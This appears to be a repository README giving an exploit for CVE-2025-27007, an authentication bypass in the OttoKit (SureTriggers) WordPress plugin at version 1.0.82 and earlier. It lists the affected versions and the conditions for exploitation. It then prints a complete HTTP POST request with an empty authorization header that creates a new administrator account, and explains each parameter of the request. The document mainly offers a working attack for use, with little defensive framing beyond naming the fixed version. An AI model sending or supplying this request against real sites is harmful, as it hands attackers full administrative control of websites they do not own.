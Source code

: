 # CVE-2025-27007: OttoKit (SureTriggers) Privilege Escalation Vulnerability 

Exploitation of CVE-2025-27007, a critical vulnerability in unauthorized privilege escalation in the OttoKit plugin (formerly known as SureTriggers) for WordPress. This repository outlines how an attacker can create an administrator account on a vulnerable WordPress site.

### Affected Versions
- All versions of OttoKit (SureTriggers) **≤ 1.0.82**.
- Fixed in version **1.0.83**.

### Conditions for Exploitation
The vulnerability can be exploited under the following circumstances:
1. OttoKit must be installed and activated on the target WordPress site.
2. The plugin **uninitialized** (e.g., no API key or "secret_key" is set in the database).
3. The target site displays the REST API endpoint '/wp-json/sure-triggers/v1/automation/action'.

---

### HTTP Request
The following request targets the `/wp-json/sure-triggers/v1/automation/action` endpoint to create an administrator account:

```http
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: [target-site]
Content-Type: application/x-www-form-urlencoded
St-Authorization: 
Content-Length: [length]

selected_options[user_name]=new_admin&selected_options[user_email]=attacker@example.com&selected_options[password]=StrongP@ssw0rd123&selected_options[role]=administrator&aintegration=WordPress&type_event=create_user_if_not_exists

```
------------------------------------------------------------------

## Explanation of Request
* Endpoint: POST /wp-json/sure-triggers/v1/automation/action

* St-Authorization:  (empty): Bypasses authentication when the plugin is unconfigured.

* selected_options[user_name]: Username for the new account (e.g., new_admin).

* selected_options[user_email]: Email for the new account (e.g., attacker@example.com).

* selected_options[password]: Password for the new account (e.g., StrongP@ssw0rd123).

* selected_options[role]: Set to administrator to grant full privileges.

*  type_event: Set to create_user_if_not_exists to trigger user creation
